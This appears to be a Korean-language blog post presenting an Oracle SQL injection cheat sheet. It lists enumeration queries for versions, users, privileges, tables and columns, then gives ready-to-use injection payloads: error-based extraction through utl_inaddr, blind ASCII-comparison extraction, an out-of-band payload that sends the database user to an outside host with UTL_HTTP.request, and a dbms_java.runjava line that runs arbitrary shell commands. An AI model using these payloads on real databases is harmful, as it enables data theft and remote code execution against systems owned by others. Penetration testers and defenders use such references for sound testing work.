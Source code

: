 ```yaml
---
layout: post
title: "Oracle SQL Injection Cheat Sheet"
description: "-"
date: 2016-03-04
category: WebHacking
tags: [SQLi, Web]
comments: true
---
```

## Table of Contents
* [Basic](#basic)
	* [Database Version](#database-version)
	* [Database Name](#database-name)
	* [Database List](#database-list)
	* [User](#user)
	* [Database Privilege](#database-privilege)
	* [Table List](#table-list)
	* [Table List One Line](#table-list-one-line)
	* [Column List](#column-list)
	* [Host IP Address](#host-ip-address)
	* [Case](#case)
	* [Limit](#limit)
	* [Case](#case)
	* [Case](#case)
* [Error based SQLi](#error-based-sqli)
	* [Column Count](#column-count)
	* [Select](#select)
* [Blind SQLi](#blind-sqli)
* [Etc](#etc)
	* [Out-of-band SQLi](#out-of-band-sqli)
	* [dbms_java.runjava](#dbms_javarunjava-----)
- - - -
## Basic

### Database Version

![version](/assets/images/posts/2016/03/o.png)

```sql
SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
SELECT version FROM v$instance;
```

### Database Name

![Name](/assets/images/posts/2016/03/o1.png)

```sql
SELECT global_name FROM global_name;
SELECT name FROM v$database;
SELECT instance_name FROM v$instance;
SELECT SYS.DATABASE_NAME FROM DUAL; 
```

### Database List

![DB_LIST](/assets/images/posts/2016/03/o2.png)

```sql
SELECT DISTINCT owner FROM all_tables;
```

### User

![User](/assets/images/posts/2016/03/o3.png)

```sql
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$;
```

### Database Privilege

![Privilege](/assets/images/posts/2016/03/o4.png)

```sql
SELECT * FROM session_privs; // current privs
SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP'; // priv, list a user's privs
SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY';
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;
```

### Table List

![Table_List](/assets/images/posts/2016/03/o5.png)

```sql
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
```

### Table List One Line

![Table_List_One_Line](/assets/images/posts/2016/03/o6.png)

```sql
select rtrim(xmlagg(xmlelement(e, table_name || ',')).extract('//text()').extract('//text()') ,',') from all_tables;
```

### Column List

![Column_List](/assets/images/posts/2016/03/o7.png)

```sql
SELECT column_name FROM all_tab_columns WHERE table_name = '테이블명';
SELECT column_name FROM all_tab_columns WHERE table_name = '테이블명' and owner = 'DB명';
```

### Host IP Address

![Host-IP](/assets/images/posts/2016/03/o8.png)

```sql
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_address FROM dual; // gets IP address
SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; // gets hostnames
```

### Case

![Case](/assets/images/posts/2016/03/o9.png)

```sql
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; // returns 1
SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; // returns 2 
```

### Limit

![Limit](/assets/images/posts/2016/03/o10.png)

```sql
select * from (select rownum rnum, table.* from table) A where A.rnum between 5 and 13; 
```

### Error based SQLi

### Column Count

order by 구문을 통해 숫자를 늘려서 현재 SQL 구문에 컬럼이 몇개 인지 확인이 가능합니다.

에러가 발생할 경우 컬럼의 갯수를 초과하였기 때문에 해당 숫자의 -1개라고 생각할 수 있습니다.

![Column_Count](/assets/images/posts/2016/03/o11.png)

### Select

에러발생 시 해당 데이터가 출력되는 것을 이용하여 데이터를 확인할 수 있습니다.

![Select](/assets/images/posts/2016/03/o12.png)

```sql
1 and utl_inaddr.get_host_name((select global_name from global_name)) <>1--
```

## Blind SQLi

데이터를 직접 확인할 수 없고 True/False 기반으로 판별이 가능한 경우가 있습니다.

이때 데이터를 한 문자씩 가져와 ASCII 값으로 비교하여 데이터를 확인할 수 있습니다.

```sql
1 and ascii(substr((select user from dual),1,1))=83--
```

True 일 경우, 아래와 같이 값이 출력

![Blind-True](/assets/images/posts/2016/03/o13.png)

False 일 경우, 아래와 같이 값이 출력되지 않음

![Blind-False](/assets/images/posts/2016/03/o14.png)

## Etc

### Out-of-band SQLi

SQL Injection은 가능하나 데이터를 출력하거나 Blind SQLi를 사용할 수 없을 경우에 사용합니다.

특정 데이터를 특정 서버로 전달하여 데이터를 확인할 수 있습니다.

![Out-of-band](/assets/images/posts/2016/03/o15.png)

```sql
1 || UTL_HTTP.request('host'||(select user from dual)) 
```

### dbms_java.runjava 함수를 통한 임의의 명령어 실행

```sql
select dbms_java.runjava('com/sun/tools/script/shellMain -e "var p= java.lang.Runtime.getRuntime().exec("$cmd"),"')from dual
```